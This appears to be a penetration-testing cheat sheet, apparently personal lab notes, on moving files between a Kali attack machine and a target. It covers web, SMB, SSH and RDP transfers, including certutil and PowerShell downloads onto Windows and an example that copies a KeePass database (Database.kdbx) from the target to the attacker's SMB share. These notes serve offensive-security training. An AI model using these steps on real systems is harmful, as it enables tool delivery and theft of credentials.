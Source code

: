 
## Webserver (Kali => Target)

Start webserver:
```bash
python3 -m http.server <port>
```

On Windows:
```bash
# Powershell
iwr -uri http://<IP>/<file> -OutFile <file>

# CMD
certutil.exe -urlcache -f http://<IP>/<file> <file>
```

On Linux:
```bash
wget http://<IP>/<file> -O /tmp/<file>
curl http://<IP>/<file> --output /tmp/<file>
```


## SMB (Kali <=> Target)

Start the SMB server on Linux:
```bash
mkdir /tmp/smb
sudo impacket-smbserver files /tmp/smb -smb2support -user admin -password admin -port 445
```

On the Windows box:
```bash
powershell

$pass = ConvertTo-SecureString 'admin' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('admin', $pass)
New-PSDrive -Name "files" -PSProvider "FileSystem" -Root "\\192.168.45.161\files" -Credential $cred
```

Transfer files:
```bash
# On Windows
copy Database.kdbx files:

# Check in linux:
ls /tmp/smb
```


## SSH (Kali <=> Target)

If SCP is available we can start the SSH server to allow for file transfer:
```bash
# Start SSH server on Kali
sudo systemctl start ssh

# Kali => Target
scp kali@<kali-IP>:/tmp/transferthis .

# Kali <= Target
scp transferthis kali@<kali-IP>:/tmp/
```


## RDP (Kali <=> Target)

Share folder:
```bash
xfreerdp /v:<ip_address> /u:<username> /p:<password> +clipboard /drive:/path/to/local/folder,ShareName
```
